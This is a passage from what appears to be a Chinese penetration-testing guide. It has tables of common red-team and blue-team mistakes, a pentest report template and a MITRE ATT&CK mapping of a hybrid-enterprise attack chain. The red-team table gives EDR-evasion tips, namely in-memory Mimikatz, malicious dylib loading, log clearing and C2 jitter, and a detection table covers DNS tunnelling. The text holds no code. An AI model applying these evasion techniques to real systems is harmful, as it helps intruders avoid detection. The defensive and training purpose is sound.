| 大量文件访问 | 文件服务器审计 | 短时间内访问超过 100 个文件（批量数据收集行为） | 高 |
| DNS 隧道 | DNS 查询日志 | 单个域名的 TXT 记录查询频率异常高，或子域名长度 > 50 字符 | 中 |

---

### 5.10 常见失误与经验教训

#### 5.10.1 红队常见失误

| 失误 | 后果 | 纠正方法 |
|------|------|----------|
| 使用已知工具的默认配置 | EDR 立即检测并告警 | 每个工具都修改默认 beacon 间隔、jitter、命名管道等参数 |
| 落盘运行 Mimikatz | 文件哈希被 EDR 标记 | 内存注入执行（Invoke-Mimikatz 或 Cobalt Strike 的 `mimikatz` 命令） |
| 在 macOS 上使用未签名工具 | Gatekeeper 拦截，用户看到安全警告 | 使用有效开发者证书签名或利用合法应用加载恶意 dylib |
| 频繁横向移动不清理痕迹 | SIEM 关联告警触发 SOC 响应 | 每次操作后立即清理日志，使用合法管理工具（WMI、WinRM）代替 PsExec |
| 使用固定的 C2 通信间隔 | 流量分析识别周期性通信模式 | 设置 20%-40% 的 jitter，在工作时间内通信 |
| 忘记时区差异 | macOS 和 Windows 的日志时间戳不一致，痕迹清理遗漏 | 统一使用 UTC 时间记录所有操作 |

#### 5.10.2 蓝队常见失误

| 失误 | 后果 | 纠正方法 |
|------|------|----------|
| 仅部署 Windows EDR，macOS 裸奔 | macOS 成为攻击者的跳板 | 统一部署跨平台 EDR |
| 凭据永不过期 | 泄露的凭据长期有效 | 强制定期轮换密码，服务账户使用托管服务账户（gMSA） |
| 日志保留期过短（< 90 天） | 无法回溯 APT 攻击时间线 | 至少保留 180 天，关键日志（域控、VPN）保留 1 年 |
| 网络分段形同虚设 | 终端可以直接访问域控制器 | 严格 ACL，终端仅允许通过管理跳板访问服务器 |
| 安全意识培训走过场 | 钓鱼测试通过率无改善 | 针对性培训 + 将钓鱼模拟结果纳入部门 KPI |

---

### 5.11 完整渗透测试报告框架

渗透测试完成后，需要输出标准化的报告文档。以下是推荐的报告结构：

```text
1. 执行摘要
   1.1 项目背景与目标
   1.2 关键发现摘要（风险评级矩阵）
   1.3 总体安全评级

2. 方法论
   2.1 测试范围
   2.2 测试方法（OWASP/PTES/MITRE ATT&CK 对照）
   2.3 工具清单
   2.4 限制与免责

3. 发现详情
   3.1 [严重] 域管理员凭据可通过钓鱼获取
       - 风险描述
       - 复现步骤（含截图）
       - 影响范围
       - 修复建议
       - CVE/CWE 编号（如有）
   3.2 [高] macOS 终端缺乏 EDR 防护
   3.3 [高] 服务账户使用弱密码且长期未轮换
   3.4 [中] 无约束委派配置在非域控制器上
   3.5 [中] 邮件网关未配置 DMARC 策略
   ...

4. 攻击路径图（Attack Path Diagram）
   - 使用 MITRE ATT&CK 标注每个阶段的战术和技术

5. 修复建议优先级矩阵
   ┌─────────────┬────────────┬───────────────┬───────────┐
   │ 发现         │ 影响       │ 修复难度       │ 优先级     │
   ├─────────────┼────────────┼───────────────┼───────────┤
   │ 弱密码策略    │ 严重       │ 低（GPO 修改） │ 立即修复   │
   │ macOS 无 EDR │ 高         │ 中（部署成本） │ 本周内     │
   │ 无约束委派    │ 高         │ 中（业务验证） │ 两周内     │
   │ DMARC 缺失   │ 中         │ 低（DNS 配置） │ 本月内     │
   └─────────────┴────────────┴───────────────┴───────────┘

6. 附录
   6.1 完整工具输出日志
   6.2 MITRE ATT&CK 技术映射表
   6.3 术语表
```

---

### 5.12 MITRE ATT&CK 技术映射

本案例中使用的攻击技术与 MITRE ATT&CK 框架的映射关系：

| 攻击阶段 | ATT&CK 技术 ID | 技术名称 | 案例中的具体应用 |
|----------|----------------|----------|-----------------|
| 侦察 | T1589 | Gather Victim Identity Information | LinkedIn 搜索、邮箱格式推断 |
| 初始访问 | T1566.001 | Phishing: Spearphishing Attachment | VPN 证书更新钓鱼邮件 |
| 初始访问 | T1133 | External Remote Services | GlobalProtect VPN 凭据复用 |
| 执行 | T1059.001 | Command and Scripting Interpreter: PowerShell | 内存加载 PowerView |
| 持久化 | T1543.001 | Create or Modify System Process: Launch Agent | macOS Launch Agent 持久化 |
| 提权 | T1558.003 | Steal or Forge Kerberos Tickets: Kerberoasting | SPN 服务票据离线破解 |
| 提权 | T1558.004 | Steal or Forge Kerberos Tickets: AS-REP Roasting | 无预认证账户哈希破解 |
| 防御绕过 | T1550.002 | Use Alternate Authentication Material: Pass the Hash | NTLM 哈希横向移动 |
| 凭据访问 | T1003.001 | OS Credential Dumping: LSASS Memory | Mimikatz 提取凭据 |
| 凭据访问 | T1555.001 | Credentials from Password Stores: Keychain | macOS 钥匙串提取 |
| 发现 | T1087.002 | Account Discovery: Domain Account | PowerView 域用户枚举 |
| 横向移动 | T1021.002 | Remote Services: SMB/Windows Admin Shares | PsExec 横向移动 |
| 横向移动 | T1021.006 | Remote Services: Windows Remote Management | WinRM 远程执行 |
| 收集 | T1039 | Data from Network Shared Drive | 文件服务器敏感数据收集 |
| 渗出 | T1048 | Exfiltration Over Alternative Protocol | DNS 隧道数据外传 |

---

通过本案例，读者可以看到一个完整的混合企业环境渗透是如何从一封钓鱼邮件开始，逐步深入到域控制器完全控制和核心数据提取的全链路过程。每个阶段的技术细节已在前面各节中详细讲解，本节的核心价值在于将这些独立技术组合为一个有机的攻击链——理解攻击链的全貌，才能构建真正有效的纵深防御体系。
